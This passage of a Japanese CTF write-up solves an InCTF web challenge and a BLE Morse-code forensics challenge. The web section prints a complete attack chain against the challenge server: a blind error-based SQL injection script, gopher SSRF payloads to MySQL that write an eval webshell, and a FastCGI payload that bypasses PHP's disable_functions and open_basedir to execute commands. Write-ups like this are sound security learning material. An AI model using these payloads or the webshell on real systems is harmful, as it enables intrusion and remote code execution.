`did_you_try_last_year_link.php` にアクセスすると以下のような HTML が表示されました。

```html
<!DOCTYPE html>
<html>
<head><title>SomeTimes hard chall is good</title></head>
<body>
<h2>Welcome Back!!! admin !!!</h2>
<h3>You have one functionality that you can cURL</h3>
<form method=POST>
put url : <input type="text" name="url">
<button type="submit">GO</button>
</form>
</body>
</html>
```

SSRF ができそうな雰囲気がありますが、何をすればよいのでしょうか。

適当にググっていると、昨年の InCTF で出題された GoSQL という問題の[作問者による write-up](https://spyclub.tech/2018/10/08/2018-10-08-inctf2018-web-challenge-writeup/) がヒットしました。読んでみると、MySQL のユーザ名を特定 → MySQL サーバに対して SSRF で WebShell を書き込み → RCE という流れのようです。

この問題でも同じことができないか、とりあえず MySQL のユーザ名を特定してみましょう。

`index.php` のソースコードを読むと、MySQL 側でエラーが発生したときに `Having a query problem` というメッセージが表示されることがわかります。ある条件を満たしたときにだけエラーを意図的に発生させるというような Error-based SQLi を試してみましょう。`if` や `case` のかわりに [`elt` 関数](https://dev.mysql.com/doc/refman/5.6/ja/string-functions.html#function_elt)を使って、`%27-extractvalue(0,elt(0,%27@%27))%09--%09` のときには `You are not admin`、`%27-extractvalue(0,elt(1,%27@%27))%09--%09` のときには `Having a query problem` が表示されました。

`user()` の末尾は `@localhost` になることと `x'41' = 'A'` になることを利用して、`replace(user(),x'(試行する文字)406c6f63616c686f7374','')` の文字数が変化したかどうかで 1 文字ずつユーザ名を特定しましょう。

```python
import binascii
import requests
import urllib.parse

URL = 'http://(省略)/?name='

# get length of user()
length = 1
while True:
  payload = "'-extractvalue(0,elt(1-(length(user())-{}),'@'))\t--\t".format(length)
  r = requests.get(URL + urllib.parse.quote(payload))

  if b'<h4>Having a query problem</h4>' in r.content:
    break
  
  length += 1

print('length:', length)

# get user()
known = '@localhost'
for _ in range(length - len(known)):
  for c in '0123456789abcdefghijklmnopqrstuvwxyz_':
    hexstr = binascii.hexlify((c + known).encode()).decode()
    payload = "'-extractvalue(0,elt(1-(length(replace(user(),x'{}',''))-{}),'@'))\t--\t".format(hexstr, length)
    r = requests.get(URL + urllib.parse.quote(payload))

    if b'<h4>Having a query problem</h4>' not in r.content:
      known = c + known
      break
  else:
    print('not found')
  print(known)
```

```
$ python get_user.py
︙
iamspyd3r@localhost
```

ユーザ名が得られました。これを使って SSRF しましょう。先程の記事にしたがって、まずは `load_file` で `/etc/mysql/mysql.conf.d/mysqld.cnf` を読んでみましょう。[Gopherus](https://github.com/tarunkant/Gopherus) で MySQL 向けのペイロードを生成します。

```
$ ./gopherus.py --exploit mysql


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

For making it work username should not be password protected!!!

Give MySQL username: iamspyd3r@localhost
Give query to execute: select load_file('/etc/mysql/mysql.conf.d/mysqld.cnf');

Your gopher link is ready to do SSRF : 

gopher://127.0.0.1:3306/_%b2%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%69%61%6d%73%70%79%64%33%72%40%6c%6f%63%61%6c%68%6f%73%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%38%00%00%00%03%73%65%6c%65%63%74%20%6c%6f%61%64%5f%66%69%6c%65%28%27%2f%65%74%63%2f%6d%79%73%71%6c%2f%6d%79%73%71%6c%2e%63%6f%6e%66%2e%64%2f%6d%79%73%71%6c%64%2e%63%6e%66%27%29%3b%01%00%00%00%01

-----------Made-by-SpyD3r-----------
```

これを `did_you_try_last_year_link.php` に投げると、以下のような内容を含む `/etc/mysql/mysql.conf.d/mysqld.cnf` が得られました。

```
︙
tmpdir        = /tmp
# You can get /tmp/test1 folder in URL/tmp_hell ;)
︙
```

`/tmp/test1/(ファイル名)` に書き込むと `http://(URL)/tmp_hell/(ファイル名)` にブラウザからアクセスすることができるようです。WebShell をアップロードしてみましょう。`select "<?php eval($_GET[0]);" into outfile '/tmp/test1/nekoneko.php';` を実行し、`/tmp_hell/nekoneko.php?0=var_dump(0);` にアクセスすると `int(1)` が表示されました。

`phpinfo();` を実行してみると、`disable_functions` が次のように設定されていることが確認できました。

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,proc_open,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,stream_socket_sendto,stream_socket_client,pcntl_async_signals,error_log,system,exec,shell_exec,popen,passthru,link,symlink,syslog,imap_open,ld,mail,file_put_contents,scandir,file_get_contents,readfile,fread,fopen,chdir
```

また、`open_basedir` が以下のように設定されていました。

```
/var/www/html:/tmp/test1
```

例のごとく、これらの制限を回避して `/readFlag` を実行すればよいのでしょう。これらの制限から思い出されるのは 0CTF/TCTF 2019 Quals の Wallbreaker Easy です。[Balsn の write-up](https://balsn.tw/ctf_writeup/20190323-0ctf_tctf2019quals/#wallbreaker-easy) を参考に `/var/run/php/` 下を `glob://` で確認すると、`/var/run/php/php7.0-fpm.sock` の存在が確認できました。これを経由して FastCGI を使えば、`disable_functions` と `open_basedir` の制限を回避できるはずです。

FastCGI 向けのペイロードを Gopherus で生成します。

```
$ ./gopherus.py --exploit fastcgi


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$

Give one file name which should be surely present in the server (prefer .php file)
if you don't know press ENTER we have default one:  /var/www/html/config.php
Terminal command to run:  /readFlag

Your gopher link is ready to do SSRF: 

gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH61%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%18SCRIPT_FILENAME/var/www/html/config.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3D%04%00%3C%3Fphp%20system%28%27/readFlag%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00

-----------Made-by-SpyD3r-----------
```

このペイロードを FastCGI に投げる Python スクリプトを書きましょう。

```python
import requests
import urllib.parse

URL1 = 'http://(省略)/did_you_try_last_year_link.php'
URL2 = 'http://(省略)/tmp_hell/nekoneko.php?0='

# upload nekoneko.php
payload1 = 'gopher://127.0.0.1:3306/_%a8%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%69%61%6d%73%70%79%64%33%72%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%46%00%00%00%03%73%65%6c%65%63%74%20%22%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%47%45%54%5b%30%5d%29%3b%22%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%27%2f%74%6d%70%2f%74%65%73%74%31%2f%6e%65%6b%6f%6e%65%6b%6f%2e%70%68%70%27%01%00%00%00%01'
payload2 = '''
$fp = fsockopen("unix:///run/php/php7.0-fpm.sock");
$out = urldecode("%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH61%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%18SCRIPT_FILENAME/var/www/html/config.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3D%04%00%3C%3Fphp%20system%28%27/readFlag%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00");
fwrite($fp,$out);
while (!feof($fp)) {
  echo htmlspecialchars(fgets($fp, 10));
}
fclose($fp);
'''

requests.post(URL1, data={'url': payload1})
print(requests.get(URL2 + urllib.parse.quote(payload2)).content.decode('utf-8'))
```

```
$ python solve.py
ontent-type: text/html; charset=UTF-8

FLAG: inctf{Because_you_knew_what_to_do,_not_a_hard_challenge,_was_it??:P!!!}

-----Made-by-SpyD3r-----
              npu
```

フラグが得られました。

```
inctf{Because_you_knew_what_to_do,_not_a_hard_challenge,_was_it??:P!!!}
```

## Forensics
### ... --- ... (216)
> I recently bought a MiBand and started exploring what crazy stuff I can do with it. Maybe this capture helps you find it yourself.
> 
> Note: Please submit the flag as inctf{sha1(FLAG IN CAPITALS)}
> 
> 添付ファイル: Challenge.pcap

与えられた pcap ファイルを Wireshark で開くと、`HCI_CMD` や `HCI_EVT` のように BLE のパケットが確認できました。Info でソートしてみると、以下のように Mild Alert や High Alert というアラートを発報している様子が確認できました。



Mild Alert は `.`、High alert は `-`、1.1 秒以上間があればそこで区切りという風にモールス信号としてデコードすると `ATTACKATDAWN` という文字列が出てきました。

```
inctf{14c8cfaa269659f52dd76cce43469554cfd5aedc}
```